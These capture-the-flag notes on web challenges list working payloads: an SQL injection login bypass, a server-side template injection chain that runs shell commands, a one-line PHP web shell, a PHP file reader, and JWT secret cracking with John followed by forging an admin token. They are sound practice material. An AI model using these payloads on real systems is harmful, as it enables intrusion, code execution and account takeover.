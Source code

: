 # WEB CHALLENGES

## Useful Tips And Resource

1. Use ```dirb``` to find out some directories we can view.
2. Useful SQLi -> ``` admin';--``` (works most of the time)
3. See for Template Injection by ```{{4+4}}``` if it shows 8 , then it's a SSTL.
4. [File Upload Bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) 
5. [Web Exploits](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)
6. [Pen Testing Handbook](https://blueteamdope.gitbook.io/penetration-testing-playbook/)
7. If you Find SSTI use ```{{config}}```
8. ZipSlip Vuln [SRC](https://snyk.io/research/zip-slip-vulnerability)
9. Command For using symlink and then upload -> 
    <img src="../Assets/sl.png">
10. Another type of zip vuln -> 
    <img src="../Assets/zipvuln.png">
11. [Deobfuscater and Unpacker](https://lelinhtinh.github.io/de4js/)

<hr>

### Foobar CTF

1. If JWT is given , try to see it via [JWT](https://jwt.io/) . Now we need a valid and secret signature to crack it. One way to do it is via John . <code> john --wordlist=/home/luc/Pobrane/rockyou.txt --format=HMAC-SHA256 jwt.txt </code> and then <code> john --show jwt.txt </code> Now you are good to go .
Code For Node ->
    ```js
    $ node 
    > const jwt = require('jsonwebtoken')
    > var token = jwt.sign({ 'user': 'admin' },'badboy', { algorithm:'HS256',noTimestamp:true});
    > console.log(token) 
    ```

2. There was a server side template injection problem . You can refer to [SSTI](https://szymanski.ninja/en/ctfwriteups/2021/foobar/lotion/) for details.

3. If you get upload vulnreability try to upload this php code 
    ```php
        <?php
        $filestring = file_get_contents('/home/user/flag/flag.txt');
        print $filestring;
        ?> 
    ```
4. Or you can try 
    ```php
    <?php system($_GET['cmd']); ?>
    ```
5. SSTI Vuln -> ```{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}```
